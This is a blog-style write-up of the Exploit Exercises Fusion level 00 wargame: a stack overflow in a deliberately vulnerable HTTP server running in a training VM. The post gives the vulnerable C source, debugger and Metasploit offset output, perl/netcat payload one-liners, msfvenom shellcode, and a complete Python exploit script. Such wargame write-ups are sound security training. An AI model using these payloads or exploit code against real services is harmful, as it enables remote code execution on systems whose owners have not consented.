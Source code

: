 ```yaml
---
title: "Exploit Exercises - Fusion 00"
date: "2012-04-09T17:13:00-04:00"
comments: true
highlight: "true"
categories:
 - wargames
 - linux
 - exploit-exercises
 - fusion
 - hacking
---
```


I was very excited to see the announcement on twitter, that [Fusion](http://exploit-exercises.com/fusion) was going to be released, even if it's just the first 10 levels. I was a bit bummed, as I didn't think I'd get to work on it much, until I complete [PWB](http://www.offensive-security.com/online-information-security-training/penetration-testing-backtrack/), but I managed to find a little time to at least start it. I pulled up [level 00](http://exploit-exercises.com/fusion/level00), which looks to be a basic stack overflow in an http server. 

<!-- more -->

The code for the server is below: 

```
#include "../common/common.c" 

int fix_path(char *path)
{
 char resolved[128];

 if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
 strcpy(path, resolved);
}

char *parse_http_request()
{
 char buffer[1024];
 char *path;
 char *q;

 printf("[debug] buffer is at 0x%08x :-)\n", buffer);

 if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
 if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

 path = &buffer[4];
 q = strchr(path, ' ');
 if(! q) errx(0, "No protocol version specified");
 *q++ = 0;
 if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

 fix_path(path);

 printf("trying to access %s\n", path);

 return path;
}

int main(int argc, char **argv, char **envp)
{
 int fd;
 char *p;

 background_process(NAME, UID, GID); 
 fd = serve_forever(PORT);
 set_io(fd);

 parse_http_request(); 
}
```

I initially had to read through the code a few times to figure out where the overflow was, to be quite honest. When an HTTP request comes in, it goes to the "parse_http_request" method. From there, it reads the buffr in by using the "read" method. Unfortunately for us, it is being careful to only read in as many bytes as it can put into the buffer.  It then does some basic handling to parse out the request.  It verifies that it was a "GET" request, and that it was done using HTTP/1.1. After that, it will pass the path of the URI to "fix_path". In this method, there <i>IS</i> an overflow, since the "resolved" variable has 128 bytes to hold data, but there is no checking of size when the "strcpy" is done. 

I logged into the machine, and made sure that I could actually get a core dump to be created if the process had an exception.  To do this, I changed the core settings for my user: 

```
fusion@fusion:/$ ulimit -c unlimited
```

Based on my analysis, I knew I would be overflowing the URI path, but based on the note given to me, I would put my shellcode after the "HTTP/1.1" since there was a lot more room.  However, I didn't know the EIP offset. So I generated a quick MSF pattern on another machine: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

I then started to wire up an exploit like so: 

```
fusion@fusion:/$ perl -e 'print "GET /". "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

Note that the "\x99\xf9\xff\xbf" value was simply guessed by taking the buffer offset (conveniently given to us at runtime) of "0xbffff8f8", and adding to it enough bytes for the "GET", the MSF buffer, and the "HTTP/1.1". I had played previously by hand, and knew how long the buffer would be, so I didn't need to break this into 2 steps. 

After executing the command, I found a handy "core" file in the root directory. So I loaded it up in GDB to get the offset: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2280]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x65413665 in ?? ()
```

Next, I took that EIP value, and ran it through the MSF Pattern Offset calculator: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x65413665
139
```

This was convenient enough to let me know that the first 139 bytes were junk, but then I had direct access to the EIP. If my estimate for a return address was close enough to hit a nop sled, it would then hit the "\xcc" debug/trace point. I then tested that: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

When I loaded the new core file into GDB, I saw that it indeed hit the debug trap: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2310]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbffff9fb in ?? ()
(gdb) x/10x $eip
0xbffff9fb:     0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0xbffffa03:     0xcc    0xcc
```

The next step was to generate some shellcode.   verified that the process was running as a UID of 20000, and not SUID, so I'm guessing at the end result here. The challenge to me was actually getting the exploit to work, so what the shellcode did was not a big event for me.  I decided to just make it write a file to /tmp. This could however be adapted to anything else. 

I used Metasploit's MSFVenom tool to generate me some shellcode to "touch /tmp/poo" as a test: 

```
mandreko@li225-134:~$ msfvenom -p linux/x86/exec -f pl CMD="touch /tmp/poo"
my $buf =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" .
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00" .
"\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f" .
"\x6f\x00\x57\x53\x89\xe1\xcd\x80";
```

I then plugged that shellcode into my exploit: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
```

Lastly, I verified that it did run the shellcode: 

```
fusion@fusion:/$ ls -al /tmp
total 8
drwxrwxrwt  2 root  root  4096 2012-04-09 21:25 .
drwxr-xr-x 22 root  root  4096 2012-04-09 21:22 ..
-rw-r--r--  1 20000 20000    0 2012-04-09 21:25 poo
```

There you have it, successful exploitation, using very basic methods. This one felt very much like the first day back from summer break, but I'm guessing it'll get much harder quickly. 

UPDATE 5/7/2012: Added python exploit: 

```
# Fusion Level 00
# http://exploit-exercises.com/fusion/level00
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0xbffff999)
        nops = "\x90"*100
        shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        print s.recv(1024)
        s.send("GET /" + junk + ret + " HTTP/1.1\n" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20000,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```
